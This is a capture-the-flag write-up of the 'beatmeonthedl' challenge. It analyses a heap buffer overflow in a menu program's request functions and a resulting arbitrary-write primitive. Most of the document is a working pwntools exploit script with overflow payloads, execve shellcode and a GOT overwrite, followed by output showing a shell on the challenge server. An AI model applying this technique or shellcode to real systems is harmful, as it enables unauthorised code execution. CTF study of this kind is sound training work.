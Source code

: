 # Writeup
The challenge gives the beatmeonthedl executable and that's all.
Doing a reverse engineering, we can note:

1- The main is an organized menu, pretty legible.

![beatmeonthedl1](https://cloud.githubusercontent.com/assets/1280700/25596814/9264fb4a-2ea1-11e7-9129-2dd659003e38.png)

2- The reqlist is stored in the .bss area, more specifically at address 0x609e88. It is an array
of pointers (max of 32 places).

![beatmeonthedl2](https://cloud.githubusercontent.com/assets/1280700/25601525/22abb95c-2ec3-11e7-8cd0-aceb26fae64d.png)

3- There are buffer overflow vulnerabilities in the add_request and update_request functions. While
the allocated memory for a request string is of 56 bytes (line 15), it allows writing 128 bytes
(line 23).  

![beatmeonthedl3](https://cloud.githubusercontent.com/assets/1280700/25596816/9274b666-2ea1-11e7-9154-d186d88da477.png)

4- The buffer overflow vulnerabilities cause weird things when deleting an overflowed buffer. After
inspecting for a while through gdb, I noticed that it was possible to write anything to anywhere.
For example, after deleting the input *"A"\*56 + "\x00\x00\x00\x00\x00\x00\x00\x00" +
"\x80\x9e\x60\x00\x00\x00\x00\x00" + "\x90\x9f\x60\x00\x00\x00\x00\x00"*, it writes 0x609f90 in position 3 of reqlist
0x609e98 (0x609e80 + 0x18). 

![beatmeonthedl4](https://cloud.githubusercontent.com/assets/1280700/25601531/2d682fec-2ec3-11e7-9f62-8ae629d122f2.png)

Using the usual free function from stdlib, this does not happen, and a runtime error of *free():
invalid next size (fast)* occurs. This exaplains why the free function is embedded in the
beatmeonthedl executable.

After confirming this strange behavior, I wrote the script below which gave me a shell.

```python
from pwn import *

p = process("./beatmeonthedl")
#p = remote("beatmeonthedl_498e7cad3320af23962c78c7ebe47e16.quals.shallweplayaga.me", 6969)
res = p.recvuntil("Enter username: ")
p.sendline("mcfly")
res = p.recvuntil("Enter Pass: ")
p.sendline("awesnap")
#adds foir request texts:
res = p.recvuntil("| ")
p.sendline("1")
res = p.recvuntil("Request text > ")
p.sendline("CCCCCCCC")
res = p.recvuntil("| ")
p.sendline("1")
res = p.recvuntil("Request text > ")
p.sendline("DDDDDDDD")
res = p.recvuntil("| ")
p.sendline("1")
res = p.recvuntil("Request text > ")
p.sendline("EEEEEEEE")
res = p.recvuntil("| ")
p.sendline("1")
res = p.recvuntil("Request text > ")
p.sendline("FFFFFFFF")

#replaces the third text, overflowing the fourth
res = p.recvuntil("| ")
p.sendline("4")
res = p.recvuntil("choice: ")
p.sendline("2")
res = p.recvuntil("data: ")
p.sendline("A"*56 + "\x00\x00\x00\x00\x00\x00\x00\x00" + "\x80\x9e\x60\x00\x00\x00\x00\x00" + "\x90\x9f\x60\x00\x00\x00\x00\x00")

#deletes the third text, causing a bug on the free function and writing 0x609f90 at 0x609e80 + 0x18 (fourth position)
res = p.recvuntil("| ")
p.sendline("3")
res = p.recvuntil("choice: ")
p.sendline("2")

#writes our shellcode at 0x609f90 (the fourth position)
res = p.recvuntil("| ")
p.sendline("4")
res = p.recvuntil("choice: ")
p.sendline("3")
res = p.recvuntil("data: ")
p.sendline("\x90"*10 + "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05")

#replaces the first text, overflowing the second
res = p.recvuntil("| ")
p.sendline("4")
res = p.recvuntil("choice: ")
p.sendline("0")
res = p.recvuntil("data: ")
p.sendline("A"*56 + "\x00\x00\x00\x00\x00\x00\x00\x00" + "\x70\x9e\x60\x00\x00\x00\x00\x00" + "\x58\x99\x60\x00\x00\x00\x00\x00")

#deletes the third text, causing a bug on the free function and writing 0x609958 at 0x609e70 + 0x18 (second position)
res = p.recvuntil("| ")
p.sendline("3")
res = p.recvuntil("choice: ")
p.sendline("0")

#writes the address of our shellcode in the put got
res = p.recvuntil("| ")
p.sendline("4")
res = p.recvuntil("choice: ")
p.sendline("1")
res = p.recvuntil("data: ")
p.sendline("\x90\x9f\x60\x00\x00\x00\x00\x00")

p.interactive()
```

```
[+] Opening connection to beatmeonthedl_498e7cad3320af23962c78c7ebe47e16.quals.shallweplayaga.me on
port 6969: Done
[*] Switching to interactive mode
$ ls
beatmeonthedl
flag
$ cat flag
The flag is: 3asy p33zy h3ap hacking!!
```
